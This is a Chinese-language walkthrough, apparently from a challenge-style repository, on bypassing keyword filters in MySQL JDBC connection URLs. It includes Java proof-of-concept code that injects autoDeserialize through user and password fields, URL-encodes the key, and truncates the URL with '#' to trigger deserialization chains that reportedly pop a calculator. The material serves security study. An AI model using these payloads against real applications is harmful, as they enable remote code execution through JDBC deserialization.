

## 利于 URL 注释符突破单参数

```
public static void connection(String addr,String user,String db,String password,String extra) {
    try {
        String url = String.format("jdbc:mysql://%s/%s?",addr,db);

        StringBuilder sb = new StringBuilder();
        sb.append("user=");
        sb.append(user);
        sb.append("&");
        sb.append("password=");
        sb.append(password);

        if (!check(extra)){
            System.out.println("you are hacker");
            return;
        }

        if (!extra.equals("")){
            sb.append("&");
            sb.append(extra);
        }

        url = url + sb;

        System.out.println(url);

        Class.forName("com.mysql.cj.jdbc.Driver");
        DriverManager.getConnection(url);
    } catch (Exception e) {
        e.printStackTrace();
    }
}

private static boolean check(String params){
    try {
        return !params.contains("autoDeserialize");
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

发现不能传入额外的参数，如果有的话会对其中的字符串进行检测

### 绕过方法 1

学习安全的闭合思想是非常重要的，我们只需要在其他可以控制的参数传入我们的值就好了

只需要在?号后的参数都是可以的

```
jdbc:mysql://127.0.0.1:3306/test?user=deser_CUSTOM&autoDeserialize=true&password=test&detectCustomCollations=true
```

观察我们的语句，其实 user 和 password 都是可以的

POC

```
package org.y4sec.team.app;

import java.sql.DriverManager;
import java.util.HashMap;
import java.util.Map;

public class Application7 {
    public static void main(String[] args) {
        // 可控内容
        String addr = "127.0.0.1:3306";
        String user = "deser_CUSTOM&autoDeserialize=true";
        String password = "test";
        String db = "test";
        String extra = "detectCustomCollations=true";

        Application7.connection(addr,user,db,password,extra);
    }
    public static void connection(String addr,String user,String db,String password,String extra) {
        try {
            String url = String.format("jdbc:mysql://%s/%s?",addr,db);

            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);

            if (!check(extra)){
                System.out.println("you are hacker");
                return;
            }

            if (!extra.equals("")){
                sb.append("&");
                sb.append(extra);
            }

            url = url + sb;

            System.out.println(url);

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String params){
        try {
            return !params.contains("autoDeserialize");
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

运行弹出计算器



### 绕过方法 2

不过使用方法 2，我们就需要修改一下 mysql 版本为 8

我 mysql 能打两个主流的链子，前面用的都是 detectCustomCollations，这里 8 版本，只能使用 ServerStatusDiffInterceptor 链子

#### 简单测试

测试代码

```
package org.y4sec.team.app;

import java.sql.DriverManager;
import java.util.HashMap;
import java.util.Map;

public class Application7 {
    public static void main(String[] args) {
        // 可控内容
        String addr = "127.0.0.1:3306";
        String user = "deser_CUSTOM";
        String password = "test";
        String db = "test";
        String extra = "queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65=%74%72%75%65";

        Application7.connection(addr,user,db,password,extra);
    }
    public static void connection(String addr,String user,String db,String password,String extra) {
        try {
            String url = String.format("jdbc:mysql://%s/%s?",addr,db);

            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);

            if (!check(extra)){
                System.out.println("you are hacker");
                return;
            }

            if (!extra.equals("")){
                sb.append("&");
                sb.append(extra);
            }

            url = url + sb;

            System.out.println(url);

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String params){
        try {
            return !params.contains("autoDeserialize");
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

运行弹出计算器



#### 调试分析

和前面的流程有所不同，8 版本会对 key 也进行解码

首先流程如下

```
ConnectionUrl (com.mysql.cj.conf)
<init>:289, ConnectionUrl (com.mysql.cj.conf)
<init>:47, SingleConnectionUrl (com.mysql.cj.conf.url)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
handleNewInstance:210, Util (com.mysql.cj.util)
getInstance:185, Util (com.mysql.cj.util)
getInstance:192, Util (com.mysql.cj.util)
getConnectionUrlInstance:201, ConnectionUrl (com.mysql.cj.conf)
connect:204, NonRegisteringDriver (com.mysql.cj.jdbc)
getConnection:664, DriverManager (java.sql)
getConnection:270, DriverManager (java.sql)
connection:44, Application7 (org.y4sec.team.app)
main:16, Application7 (org.y4sec.team.app)
```

在连接过程中会构造

collectProperties 对象

```
protected void collectProperties(ConnectionUrlParser connStrParser, Properties info) {
    connStrParser.getProperties().entrySet().stream().forEach((e) -> {
        String var10000 = (String)this.properties.put(PropertyKey.normalizeCase((String)e.getKey()), e.getValue());
    });
    if (info != null) {
        info.stringPropertyNames().stream().forEach((k) -> {
            String var10000 = (String)this.properties.put(PropertyKey.normalizeCase(k), info.getProperty(k));
        });
    }

    this.processColdFusionAutoConfiguration();
    this.setupPropertiesTransformer();
    this.expandPropertiesFromConfigFiles(this.properties);
    this.injectPerTypeProperties(this.properties);
}
```

其中会调用 getProperties 去获取属性、

又会调用 parseQuerySection 去解析我们?后的输入

```
public Map<String, String> getProperties() {
    if (this.parsedProperties == null) {
        this.parseQuerySection();
    }

    return Collections.unmodifiableMap(this.parsedProperties);
}
```

processKeyValuePattern 方法中匹配我们的 key=value 形式，然后进行 decode 解码

放在 MAp 中最后返回

```
private Map<String, String> processKeyValuePattern(Pattern pattern, String input) {
    Matcher matcher = pattern.matcher(input);
    int p = 0;

    HashMap kvMap;
    for(kvMap = new HashMap(); matcher.find(); p = matcher.end()) {
        if (matcher.start() != p) {
            throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));
        }

        String key = decode(StringUtils.safeTrim(matcher.group("key")));
        String value = decode(StringUtils.safeTrim(matcher.group("value")));
        if (!StringUtils.isNullOrEmpty(key)) {
            kvMap.put(key, value);
        } else if (!StringUtils.isNullOrEmpty(value)) {
            throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));
        }
    }

    if (p != input.length()) {
        throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));
    } else {
        return kvMap;
    }
}
```

成功解码



所以可以编码绕过

## URL 注释符注释绕过

这里还是使用 8 版本的，懒得更换了

waf 部分

```
public static void connection(String addr, String user, String db, String password, String extra) {
    try {
        String url = String.format("jdbc:mysql://%s/%s?", addr, db);

        StringBuilder sb = new StringBuilder();
        sb.append("user=");
        sb.append(user);
        sb.append("&");
        sb.append("password=");
        sb.append(password);

        if (!check(extra)) {
            System.out.println("you are hacker");
            return;
        }

        if (!extra.equals("")) {
            sb.append("&");
            sb.append(extra);
        }

        if (url.endsWith("?")) {
            url = url + sb + "autoDeserialize=false";
        } else {
            url = url + sb + "&autoDeserialize=false";
        }

        System.out.println(url);

        Class.forName("com.mysql.cj.jdbc.Driver");
        DriverManager.getConnection(url);
    } catch (Exception e) {
        e.printStackTrace();
    }
}

private static boolean check(String params) {
    try {
        return !params.contains("autoDeserialize");
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

可以发现无论哪种情况，我们的后面都被强制加了 autoDeserialize=false

导致很难利用

但是别忘了在url中 #的作用 ，我们只需要在最后一个位置上的参数最后吉加入#

那么就可以绕过了

POC

```
package org.y4sec.team.app;

import java.sql.DriverManager;

public class Application8 {
    public static void main(String[] args) {
        // 可控内容
        String addr = "127.0.0.1:3306";
        String user = "deser_CUSTOM";
        String password = "test&autoDeserialize=true";
        String db = "test";
        String extra = "queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&#?";

        Application8.connection(addr,user,db,password,extra);
    }
    public static void connection(String addr, String user, String db, String password, String extra) {

        try {
            String url = String.format("jdbc:mysql://%s/%s?", addr, db);

            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);

            if (!check(extra)) {
                System.out.println("you are hacker");
                return;
            }

            if (!extra.equals("")) {
                sb.append("&");
                sb.append(extra);
            }

            if (url.endsWith("?")) {
                url = url + sb + "autoDeserialize=false";
            } else {
                url = url + sb + "&autoDeserialize=false";
            }

            System.out.println(url);

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String params) {
        try {
            return !params.contains("autoDeserialize");
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```



## ?与 `#` 组合拳

waf 如下

```
public static void connection(String addr, String user, String db, String password, String extra) {
    try {
        String url = String.format("jdbc:mysql://%s/%s?", addr, db);

        StringBuilder sb = new StringBuilder();
        sb.append("user=");
        sb.append(check(user));
        sb.append("&");
        sb.append("password=");
        sb.append(check(password));

        if (!extra.equals("")) {
            sb.append("&");
            sb.append(check(extra));
        }

        url = url + sb;

        System.out.println(url);

        Class.forName("com.mysql.cj.jdbc.Driver");
        DriverManager.getConnection(url);
    } catch (Exception e) {
        e.printStackTrace();
    }
}

private static String check(String params) {
    if (params.contains("autoDeserialize")) {
        throw new RuntimeException("you are hacker");
    }
    return params;
}
```

可以看到已经不能在 user 和 password 出加入我们的恶意代码了

但是如果对?和 #使用恰当就可以绕过waf

POC

```
package org.y4sec.team.app;

import java.sql.DriverManager;

public class Application8 {
    public static void main(String[] args) {
        // 可控内容
        String addr = "127.0.0.1:3306";
        String user = "deser_CUSTOM";
        String password = "test&autoDeserialize=true";
        String db = "test";
        String extra = "queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&#?";

        Application8.connection(addr,user,db,password,extra);
    }
    public static void connection(String addr, String user, String db, String password, String extra) {

        try {
            String url = String.format("jdbc:mysql://%s/%s?", addr, db);

            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);

            if (!check(extra)) {
                System.out.println("you are hacker");
                return;
            }

            if (!extra.equals("")) {
                sb.append("&");
                sb.append(extra);
            }

            if (url.endsWith("?")) {
                url = url + sb + "autoDeserialize=false";
            } else {
                url = url + sb + "&autoDeserialize=false";
            }

            System.out.println(url);

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String params) {
        try {
            return !params.contains("autoDeserialize");
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

我们 url 传入的值为

```
jdbc:mysql://127.0.0.1:3306/test?user=deser_CUSTOM&password=test&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&#?autoDeserialize=false
```

解析后的

```
com.mysql.cj.conf.ConnectionUrlParser@cb5822 :: {scheme: "jdbc:mysql:", authority: "127.0.0.1:3306", path: "test", query: "user=deser_CUSTOM&password=test&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&", parsedHosts: [com.mysql.cj.conf.HostInfo@4b9e13df :: {host: "127.0.0.1", port: 3306, user: null, password: null, hostProperties: {}}], parsedProperties: null}
```

## Pass10

waf 如下

```
package org.y4sec.team.app;

import java.sql.DriverManager;

public class Application10 {
    public static void connection(String addr, String user, String db, String password, String extra) {
        try {
            String url = String.format("jdbc:mysql://%s/%s?", addr, db);

            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(check(user));
            sb.append("&");
            sb.append("password=");
            sb.append(check(password));

            if (!extra.equals("")) {
                sb.append("&");
                sb.append(check(extra));
            }

            url = url + sb;

            check(url);

            System.out.println(url);

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String check(String params) {
        if (params.contains("autoDeserialize")) {
            throw new RuntimeException("you are hacker");
        }
        return params;
    }
}
```

对于 6 版本来说确实没有绕过的办法了，这次治标治本，把 check 直接到最后的 url，所以没有绕过办法了

当然对于 8，就编码即可

参考

<https://github.com/Y4Sec-Team/mysql-jdbc-tricks>
